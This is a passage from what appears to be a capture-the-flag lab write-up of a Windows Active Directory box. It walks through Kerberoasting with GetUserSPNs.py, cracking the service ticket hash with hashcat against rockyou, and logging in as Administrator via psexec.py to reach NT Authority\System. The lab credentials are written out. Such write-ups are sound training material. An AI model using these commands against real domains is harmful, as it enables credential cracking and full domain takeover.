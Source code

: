         ```Shell
        GetUserSPNs.py -request -dc-ip 10.10.10.100 Active.htb/ServiceTGS -p GPPStillStandingStrong2k18
        ```
        
    - **Result**: A Kerberos service ticket hash (TGS-REP) is output.
2. **Cracking the Service Ticket**:
    - Save the ticket into a text file (e.g., `hashes.txt`).
    - Crack the hash with Hashcat using the Kerberoasting module:
        
        ```Shell
        hashcat -m 13100 hashes.txt rockyou.txt -O
        ```
        
    - Parameters:
        - `m 13100`: Specifies Kerberos 5 TGS-REP encryption.
        - `O`: Enables performance optimization.
        - `rockyou.txt`: A common password dictionary.
    - **Result**: Decrypted password:
        
        ```Plain
        TicketMaster1968
        ```
        
3. **Access Using Cracked Password**:
    - User: `Administrator`
    - Password: `TicketMaster1968`

---

### **Privilege Escalation**

1. **Verify Access**:
    - Use PSExec to authenticate:
        
        ```Shell
        psexec.py <domain>/<username>:'<password>'@<IP_address>
        ```
        
    - Example:
        
        ```Shell
        psexec.py Administrator:'TicketMaster1968'@10.10.10.100
        ```
        
    - Confirm successful escalation:**Output**:
        
        ```Shell
        whoami
        ```
        
        ```Plain
        NT Authority\System
        ```
        
2. **Kerberoasting Takeaway**:
    - Even low-level user credentials can provide domain admin rights if misconfigurations exist.
    - Kerberoasting exploits mismanaged Service Principal Names (SPNs) and weak passwords in Kerberos authentication.

---